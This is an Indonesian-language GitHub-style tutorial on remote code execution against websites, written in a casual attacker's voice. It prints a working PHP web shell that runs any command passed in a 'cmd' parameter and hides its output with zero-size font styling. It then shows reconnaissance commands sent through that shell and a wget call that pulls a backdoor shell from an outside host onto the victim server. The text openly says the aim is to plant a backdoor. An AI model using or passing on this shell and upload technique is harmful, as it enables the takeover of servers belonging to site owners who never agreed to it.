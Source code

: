 ### Remote Code Execution

<p align="center">
<img src="https://i.ibb.co/3TNyvvW/20201211-095009.png" height="150" width="150">

Basic For Remote Code Execution ( Critical )

merupakan suatu teknik serangan pada website dengan cara mengeksekusi kode berbahaya dan mengambil alih kendali akses ke sistem komputer. attacker mempunyai kemampuan untuk mengeksekusi perintah di mesin target, biasanya memanfaatkan kelemahan aplikasi yang dijadikan target eksploitasi.
Remote Command Execution (RCE) atau Remote Arbitary Command Execution (ACE) adalah bug yg memungkinkan attacker untuk menjalankan command2 secara remote melalui url. Bug ini biasanya terdapat pada aplikasi yg mnggunakan cgi.

Contoh Kasus Nya Kayak Gini Lur

```
<style>body{font-size: 0;}h1{font-size: 12px}</style><h1>
<?php if(isset($_REQUEST['cmd'])){system($_REQUEST['cmd']);}else{echo '<img src="https://i.ibb.co/3TNyvvW/20201211-095009.png" border=0>
';}__halt_compiler();?></h1>
```

### Basic Rce

Misal Gua Upload File : rce.php

Request Dari php nya adalah = cmd

Cara Akses ? :
```
http://site.com/rce.php?cmd=
```

Oke Kita Jalankan Beberapa Perintah Dasar RCE
```
http://site.com/rce.php?cmd=ls
http://site.com/rce.php?cmd=whoami
http://site.com/rce.php?cmd=uname -a
http://site.com/rce.php?cmd=pwd
http://site.com/rce.php?cmd=ps aux
http://site.com/rce.php?cmd=ls -la

```

### Reverse Shell Via RCE
Kita Menggunakan Command wget 
```
http://site.com/rce.php?cmd=wget http://dyan6etar.cf/shell.txt -O namashell.php
```
Jika Sudah Kita Akses Di Dokumen Root : site.com/namashell.php

### Penjelasan Singkat
Penjelasan Singkat Tentang Command wget :

wget menurut Otak Gua : Menarik File Dari Luar Server dan Juga Membuat Di Dalam Server

Sedangkan -O Untuk Menamakan File Tersebut 

Sebagai contoh : Saya Telah Membuat Shell Dengan Ekstensi txt Dan Menguploadnya di hosting lain artinya itu diluar server , nah dengan perintah wget kita bisa menarik file itu ke dalam server cuk dan di buat filenya dengan perintah -O.

Tentu Saja Ini Bisa Di Manfaatkan Untuk Up Shell BackDoor

Oke Sekian Sayang:v
